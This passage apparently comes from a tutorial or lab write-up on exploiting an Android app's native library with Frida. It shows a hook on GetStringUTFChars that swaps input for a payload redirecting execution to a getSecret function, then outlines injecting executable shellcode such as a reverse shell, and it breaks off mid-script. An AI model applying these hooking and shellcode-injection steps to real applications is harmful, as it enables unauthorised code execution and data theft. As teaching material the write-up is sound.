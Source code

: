 ```js

    // Hook GetStringUTFChars and replace the return value with our crafted payload
    Interceptor.attach(dynamic_address_of_GetStringUTFChars, {
      onLeave: function(retval) {
        var uInput = retval.readCString();
        if (uInput == "exploit") {
          retval.replace(memoryForPayload); // Replace retval with our crafted payload
        }
      }
    });
  }, 2000);
}

start_timer_for_intercept();
```

#### Summary

- We first locate the `getSecret` function's address using `Module.findExportByName()`.
- The address is then formatted and adjusted for system endianness.
- Finally, by hooking the `GetStringUTFChars` function, we replace the user input with a payload that includes the address of `getSecret`.
- When the payload is executed, the application logs "Yeah!" to indicate success.

And just like that, we’ve successfully exploited the application to call the `getSecret` function!

## Bonus
If you're interested in writing and executing shellcode in memory—like a reverse shell—this section will guide you through the process. The steps include writing the shellcode, allocating memory for it, changing the allocated memory's permissions to make it executable, and then writing the shellcode into that memory.

![frida-5](https://github.com/user-attachments/assets/5580e00b-1773-4ab2-afb2-542ccbc67ff4)

Steps to Execute Shellcode:

- **Write Your Shellcode:**
  - First, craft your shellcode. This could be something like a reverse shell.

- **Allocate Memory:**
  - Allocate memory for your shellcode, ensuring it's large enough to hold the shellcode and any additional data.

- **Change Memory Permissions:**
  - Modify the permissions of the allocated memory region to make it executable.

- **Write Shellcode into Memory:**
  - Write the shellcode into the allocated memory.

- **Verify with hexdump():**
  - Use `hexdump()` to inspect the memory where the shellcode is located and ensure everything is as expected.

```js
var libnative_lib_so = 'libnative-lib.so';

function start_timer_for_intercept() {
  setTimeout(function() {
    console.log("[+] " + libnative_lib_so + " Base Address -> " + Module.findBaseAddress(libnative_lib_so));

    var offset_of_GetStringUTFChars = 0x51110; // Offset for GetStringUTFChars
    var dynamic_address_of_GetStringUTFChars = Module.findBaseAddress(libnative_lib_so).add(offset_of_GetStringUTFChars);

    // Allocate memory for the payload
```